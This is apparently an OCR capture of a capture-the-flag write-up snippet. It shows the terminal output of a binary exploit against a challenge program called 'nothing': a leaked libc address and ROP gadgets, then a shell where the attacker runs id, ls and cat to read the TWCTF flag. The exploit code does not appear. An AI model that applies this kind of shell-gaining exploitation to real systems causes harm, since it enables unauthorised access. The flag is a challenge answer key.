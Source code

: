 ```bash
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fcde34cc000
[*] Loaded 14 cached gadgets for './nothing'
[*] Switching to interactive mode
$ id
uid=11901 gid=11000(nothing) groups=11000(nothing)
$ ls -l
total 16
-rw-r----- 1 root nothing   52 Sep 18 15:53 flag.txt
-rwxr-x--- 1 root nothing 8632 Sep 18 15:53 nothing
$ cat flag.txt
TWCTF{kotoshi_mo_hazimarimasita_TWCTF_de_gozaimasu}
```
